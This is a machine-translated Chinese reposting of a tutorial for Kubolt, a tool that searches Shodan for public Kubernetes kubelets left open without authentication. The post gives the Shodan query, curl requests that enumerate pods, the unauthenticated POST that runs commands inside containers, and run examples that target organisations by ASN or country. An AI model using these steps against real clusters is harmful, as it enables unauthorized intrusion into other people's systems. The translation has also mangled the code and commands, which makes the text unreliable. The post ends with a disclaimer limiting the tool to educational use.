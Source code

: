 # Kubolt:用于扫描公共 Kubernetes 集群的实用程序

> 原文：<https://kalilinuxtutorials.com/kubolt/>

[![Kubolt : Utility For Scanning Public Kubernetes Clusters](img/caf8bbbd39129cd095070f3a4fc4c384.png "Kubolt : Utility For Scanning Public Kubernetes Clusters")](https://1.bp.blogspot.com/-jzbb69WUPDw/XPUetZbW5BI/AAAAAAAAAnI/D2155adTeR0jlszXPj14n7SxlU60GYyAgCEwYBhgL/s1600/github-scale.gif)

Kubolt 是一个简单的工具，用于扫描公共的未授权的 kubernetes 集群，并在容器内运行命令。有时，kubelet 端口 10250 对未经授权的访问是开放的，这使得使用来自 [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) 的 getrun 函数在容器内运行命令成为可能:

**// getRun 处理在容器内部运行命令的请求。
func(s * Server)get run(request * restful。请求，响应*restful。response){
params:= getExecRequestParams(request)
pod，ok:= s . host . getpodbyname(params . pod namespace，params.podName)
如果！ok {
响应。WriteError(http。状态未找到。Errorf("pod 不存在")
返回
}**

**也可阅读-[wafw 00 f:识别&指纹网络应用防火墙(WAF)产品保护网站](https://kalilinuxtutorials.com/wafw00f-2/)**

好吧，让我们问问我们的朋友肖丹

基本的查询是

> **ssl:真实端口:10250 404**

**Kubelet** 默认使用带 SSL 的端口 10250，404 是不带 URL 路径的 HTTP 响应。

Kubolt 通过 API 向 Shodan 请求 IP 地址列表，并保存它们以供其他操作使用

首先，让我们向 Kubelet 请求运行 pod 并过滤响应不包含`Unauthorized`而包含`container`的主机，这样我们就可以在其中运行命令。

**curl-k https://IP-from-shod an:10250/running pods/**

无论如何，如果您发现主机当时没有任何正在运行的 pods，请保留它，以备下次 pods 可能启动时使用

您可以列出这些请求中的所有可用窗格:

**curl-k https://IP-from-Shodan:10250/pods/
#或
curl http://IP-from-Shodan:10255/pods/**

接下来 **kubolt** 解析响应并生成一个新请求，如下所示:

**curl-XPOST-k https://IP-from-shod an:10250/run/<名称空间> / < PodName > / <容器名> -d "cmd= <命令运行> "**

您可以使用 Shodan 过滤器更准确地锁定公司，例如:

*   平均取样数（Average Sample Number 的缩写）
*   （同 organic）有机
*   国家
*   网

**安装**

**mkdir 输出
pip install-r requirements . txt**

**运行**

**python kubolt . py–query " ASN:123123 org:' ACME Corporation ' "
#或
python kubolt . py–query " org:' ACME Corporation ' country:UK "**

**庄丹**

**Kubolt** 使用 Shodan API 和[查询信用](https://help.shodan.io/the-basics/credit-types-explained)相应地，如果你运行没有查询过滤器的工具，那么你可能会解雇你所有的信用`.`

**免责声明**

作者提供的工具只能用于教育目的。作者不能对工具的误用负责。作者不对因使用该工具而造成的任何直接或间接损害负责。

[**Download**](https://github.com/averonesis/kubolt)